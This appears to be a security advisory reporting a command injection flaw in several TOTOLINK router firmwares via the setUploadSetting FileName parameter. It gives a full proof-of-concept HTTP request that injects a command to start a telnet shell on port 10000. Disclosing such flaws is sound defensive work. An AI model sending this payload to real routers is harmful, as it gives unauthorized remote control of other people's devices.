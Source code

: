 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A830R、3100R、A950RG、A800R、A3000RU、A810R

Version:A830R_Firmware(V5.9c.4729_B20191112)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/184/ids/36.html)

A3100R_Firmware(V4.1.2cu.5050_B20200504)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html)

A950RG_Firmware(V4.1.2cu.5161_B20200903)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/167/ids/36.html)

A800R_Firmware(V4.1.2cu.5137_B20200730)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

A3000RU_Firmware(V5.9c.5185_B20201128)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/168/ids/36.html)

A810R_Firmware)(V4.1.2cu.5182_B20201026)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `upgrade.so` binary:

In `setUploadSetting` function,`FileName` is directly passed by the attacker, so we can control the `FileName` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `libcstelib.so` binary:

Function `popen` is called internally in function `getCmdStr`.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 

> Complete vulnerability verification on A830R product



## PoC

We set `FileName` as **`telnetd -l /bin/sh -p 10000`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 102
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/top.asp?timestamp=1645506134
Cookie: SESSION_ID=2:1645507767:2

{"topicurl":"setting/setUploadSetting","FileName":"`telnetd -l /bin/sh -p 10000`","ContentLength":"1"}
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result
Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

